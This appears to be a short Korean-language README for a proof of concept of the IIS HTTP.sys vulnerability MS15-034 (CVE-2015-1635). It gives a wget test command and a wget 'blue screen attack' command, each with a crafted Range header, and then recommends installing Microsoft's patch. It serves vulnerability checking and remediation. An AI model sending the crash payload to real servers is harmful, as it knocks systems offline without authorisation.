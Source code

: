 # MS15-034
MS15-034 POC

"현재 IIS 서버 버전은 알려진 취약점(CVE-2015-1635, MS15-034)이 존재하는 취약한 버전으로 해당 취약점을 활용할 시 원격 코드 실행 혹은 블루스크린 유발 등의 공격에 당할 위험이 존재한다. 
 - 테스트 구문 : wget --header=""Range: bytes=0-18446744073709551615"" <테스트할 서버 URL>
 - 블루스크린 유발 공격 구문 : wget --header=""Range: bytes=18-18446744073709551615"" <공격할 서버 URL>

※ https://technet.microsoft.com/library/security/ms15-034
※ http://blog.alyac.co.kr/303"
"Windows Server 2012 R2 용 보안 패치를 설치한다.
https://www.microsoft.com/ko-KR/download/details.aspx?id=46500"
